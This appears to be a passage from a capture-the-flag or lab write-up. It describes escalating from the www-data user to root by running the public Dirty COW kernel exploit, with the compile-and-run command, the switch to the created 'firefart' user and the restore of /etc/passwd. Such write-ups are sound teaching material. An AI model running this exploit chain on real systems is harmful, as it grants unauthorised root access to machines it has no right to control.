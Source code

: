 *ALTERNATIVE PRIV ESC*

Once we are in the system as www-data, we can check the kernel version using the following command 
```uname -a```

After a short search, we find that there are some kernel exploits which could work here. One of them is Dirty COW, we will use this one https://github.com/firefart/dirtycow

We compile it using the next command
```cd /tmp && gcc -pthread dirty.c -o dirty -lcrypt && ./dirty rootpass```

Now log in as root (now named firefart)
```su firefart```
```mv /tmp/passwd.bak /etc/passwd```
```id```
